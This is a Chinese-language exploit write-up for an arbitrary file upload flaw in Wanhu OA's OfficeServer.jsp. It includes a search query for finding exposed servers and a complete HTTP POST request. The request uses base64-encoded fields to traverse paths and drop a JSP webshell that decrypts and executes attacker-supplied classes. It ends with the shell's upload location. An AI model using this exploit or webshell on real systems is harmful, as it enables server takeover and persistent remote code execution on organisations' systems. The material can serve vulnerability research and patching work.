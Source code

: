# 

# 万户OA OfficeServer.jsp 任意文件上传漏洞

## 漏洞描述

万户OA 除了 /defaultroot/officeserverservlet 接口外的另一处接口 OfficeServer.jsp 同时也存在任意文件上传漏洞，导致攻击者可上传任意文件获取服务器权限

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220824142451484](./images/202208241424573.png)

发送请求包

```
POST /defaultroot/public/iWebOfficeSign/OfficeServer.jsp HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: OASESSIONID=847AE3A2E5D155AE7FB1CD2C6736CD66
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Length: 798
		
DBSTEP V3.0     170              0                1000              DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
RECORDID=
isDoc=dHJ1ZQ==
moduleType=Z292ZG9jdW1lbnQ=
FILETYPE=Li4vLi4vcHVibGljL2VkaXQvY21kX3Rlc3QuanNw
111111111111111111111111111111111111111111111111
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```

![image-20220824142511911](./images/202208241425970.png)

上传后的目录为

```
/defaultroot/public/edit/cmd_test.jsp
```

![image-20220824142536837](./images/202208241425906.png)
